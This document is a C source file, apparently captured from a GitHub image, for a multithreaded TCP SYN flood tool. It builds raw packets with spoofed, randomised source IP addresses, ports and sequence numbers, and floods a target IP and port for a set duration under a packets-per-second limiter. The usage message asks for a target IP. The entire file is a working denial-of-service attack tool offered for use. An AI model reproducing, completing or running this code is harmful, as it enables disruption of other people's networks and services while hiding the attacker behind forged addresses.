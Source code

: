 /*
 * This is released under the GNU GPL License v3.0, and is allowed to be used for commercial products ;)
 */
#include <unistd.h>
#include <time.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <sys/ioctl.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <pthread.h>
#include <netinet/tcp.h>
#include <netinet/ip.h>
#include <netinet/in.h>
#include <netinet/if_ether.h>
#include <netdb.h>
#include <net/if.h>
#include <arpa/inet.h>

#define MAX_PACKET_SIZE 4096
#define PHI 0x9e3779b9

static unsigned long int Q[4096], c = 362436;
static unsigned int floodport;
volatile int limiter;
volatile unsigned int pps;
volatile unsigned int sleeptime = 100;

void init_rand(unsigned long int x)
{
	int i;
	Q[0] = x;
	Q[1] = x + PHI;
	Q[2] = x + PHI + PHI;
	for (i = 3; i < 4096; i++){ Q[i] = Q[i - 3] ^ Q[i - 2] ^ PHI ^ i; }
}
unsigned long int rand_cmwc(void)
{
	unsigned long long int t, a = 18782LL;
	static unsigned long int i = 4095;
	unsigned long int x, r = 0xfffffffe;
	i = (i + 1) & 4095;
	t = a * Q[i] + c;
	c = (t >> 32);
	x = t + c;
	if (x < c) {
		x++;
		c++;
	}
	return (Q[i] = r - x);
}
unsigned short csum (unsigned short *buf, int count)
{
	register unsigned long sum = 0;
	while( count > 1 ) { sum += *buf++; count -= 2; }
	if(count > 0) { sum += *(unsigned char *)buf; }
	while (sum>>16) { sum = (sum & 0xffff) + (sum >> 16); }
	return (unsigned short)(~sum);
}

unsigned short tcpcsum(struct iphdr *iph, struct tcphdr *tcph) {

	struct tcp_pseudo
	{
		unsigned long src_addr;
		unsigned long dst_addr;
		unsigned char zero;
		unsigned char proto;
		unsigned short length;
	} pseudohead;
	unsigned short total_len = iph->tot_len;
	pseudohead.src_addr=iph->saddr;
	pseudohead.dst_addr=iph->daddr;
	pseudohead.zero=0;
	pseudohead.proto=IPPROTO_TCP;
	pseudohead.length=htons(sizeof(struct tcphdr));
	int totaltcp_len = sizeof(struct tcp_pseudo) + sizeof(struct tcphdr);
	unsigned short *tcp = malloc(totaltcp_len);
	memcpy((unsigned char *)tcp,&pseudohead,sizeof(struct tcp_pseudo));
	memcpy((unsigned char *)tcp+sizeof(struct tcp_pseudo),(unsigned char *)tcph,sizeof(struct tcphdr));
	unsigned short output = csum(tcp,totaltcp_len);
	free(tcp);
	return output;
}

void setup_ip_header(struct iphdr *iph)
{
	iph->ihl = 5;
	iph->version = 4;
	iph->tos = 0;
	iph->tot_len = sizeof(struct iphdr) + sizeof(struct tcphdr);
	iph->id = htonl(54321);
	iph->frag_off = 0;
	iph->ttl = MAXTTL;
	iph->protocol = 6;
	iph->check = 0;
	iph->saddr = inet_addr("192.168.3.100");
}

void setup_tcp_header(struct tcphdr *tcph)
{
	tcph->source = htons(5678);
	tcph->seq = rand();
	tcph->ack_seq = 0;
	tcph->res2 = 0;
	tcph->doff = 5;
	tcph->syn = 1;
	tcph->window = htons(65535);
	tcph->check = 0;
	tcph->urg_ptr = 0;
}

void *flood(void *par1)
{
	char *td = (char *)par1;
	char datagram[MAX_PACKET_SIZE];
	struct iphdr *iph = (struct iphdr *)datagram;
	struct tcphdr *tcph = (void *)iph + sizeof(struct iphdr);
	
	struct sockaddr_in sin;
	sin.sin_family = AF_INET;
	sin.sin_port = htons(floodport);
	sin.sin_addr.s_addr = inet_addr(td);

	int s = socket(PF_INET, SOCK_RAW, IPPROTO_TCP);
	if(s < 0){
		fprintf(stderr, "Could not open raw socket.\n");
		exit(-1);
	}
	memset(datagram, 0, MAX_PACKET_SIZE);
	setup_ip_header(iph);
	setup_tcp_header(tcph);

	tcph->dest = htons(floodport);

	iph->daddr = sin.sin_addr.s_addr;
	iph->check = csum ((unsigned short *) datagram, iph->tot_len);

	int tmp = 1;
	const int *val = &tmp;
	if(setsockopt(s, IPPROTO_IP, IP_HDRINCL, val, sizeof (tmp)) < 0){
		fprintf(stderr, "Error: setsockopt() - Cannot set HDRINCL!\n");
		exit(-1);
	}

	init_rand(time(NULL));
	register unsigned int i;
	i = 0;
	while(i < 10000){
		sendto(s, datagram, iph->tot_len, 0, (struct sockaddr *) &sin, sizeof(sin));

		iph->saddr = (rand_cmwc() >> 24 & 0xFF) << 24 | (rand_cmwc() >> 16 & 0xFF) << 16 | (rand_cmwc() >> 8 & 0xFF) << 8 | (rand_cmwc() & 0xFF);
		iph->id = htonl(rand_cmwc() & 0xFFFFFFFF);
		iph->check = csum ((unsigned short *) datagram, iph->tot_len);
		tcph->seq = rand_cmwc() & 0xFFFF;
		tcph->source = htons(rand_cmwc() & 0xFFFF);
		tcph->check = 0;
		tcph->check = tcpcsum(iph, tcph);
		
		pps++;
		if(i >= limiter)
		{
			i = 0;
			usleep(sleeptime);
		}
		i++;
	}
}
int main(int argc, char *argv[ ])
{
	if(argc < 6){
		fprintf(stderr, "Invalid parameters!\n");
		fprintf(stdout, "Usage: %s <target IP> <port to be flooded> <number threads to use> <pps limiter, -1 for no limit> <time>\n", argv[0]);
		exit(-1);
	}

	fprintf(stdout, "Setting up Sockets...\n");

	int num_threads = atoi(argv[3]);
	floodport = atoi(argv[2]);
	int maxpps = atoi(argv[4]);
	limiter = 0;
	pps = 0;
	pthread_t thread[num_threads];
	
	int multiplier = 20;

	int i;
	for(i = 0;i<num_threads;i++){
		pthread_create( &thread[i], NULL, &flood, (void *)argv[1]);
	}
	fprintf(stdout, "Starting Flood...\n");
	for(i = 0;i<(atoi(argv[5])*multiplier);i++)
	{
		usleep((1000/multiplier)*1000);
		if((pps*multiplier) > maxpps)
		{
			if(1 > limiter)
			{
				sleeptime+=100;
			} else {
				limiter--;
			}
		} else {
			limiter++;
			if(sleeptime > 25)
			{
				sleeptime-=25;
			} else {
				sleeptime = 0;
			}
		}
		pps = 0;
	}

	return 0;
}
